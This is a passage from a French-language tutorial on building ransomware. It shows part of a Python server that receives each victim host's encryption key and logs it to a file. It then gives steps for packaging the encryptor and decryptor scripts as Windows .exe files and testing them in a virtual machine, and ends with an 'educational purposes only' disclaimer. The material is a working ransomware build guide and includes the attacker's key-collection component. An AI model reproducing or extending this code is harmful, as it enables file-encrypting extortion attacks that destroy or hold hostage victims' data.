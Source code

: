 ```python
            host_and_key = conn.recv(1024).decode()
            with open('encrypted_hosts.txt', 'a') as f:
                f.write(host_and_key + '\n')
            break
        print('Connection completed and closed!')
```

#### 7. Conversion des scripts Python en fichiers exécutables (.exe)

Utilisez l'outil `auto-py-to-exe` pour convertir vos scripts Python en fichiers exécutables.

```bash
pip install auto-py-to-exe
```

Lancez l'interface `auto-py-to-exe`.

```bash
auto-py-to-exe
```

Sélectionnez le fichier `ec.py` pour le convertir en `ec.exe`. Répétez l'opération pour `dc.py`.

#### 8. Test dans une machine virtuelle

Utilisez une machine virtuelle pour tester les fichiers exécutables. Déposez `ec.exe` sur la machine virtuelle pour chiffrer les fichiers et envoyez la clé au serveur. Utilisez `dc.exe` pour déchiffrer les fichiers avec la clé appropriée.

### Important

Ce tutoriel est uniquement à des fins éducatives. L'utilisation de ransomware pour des activités malveillantes est illégale et contraire à l'éthique. Utilisez ces connaissances de manière responsable et éthique.
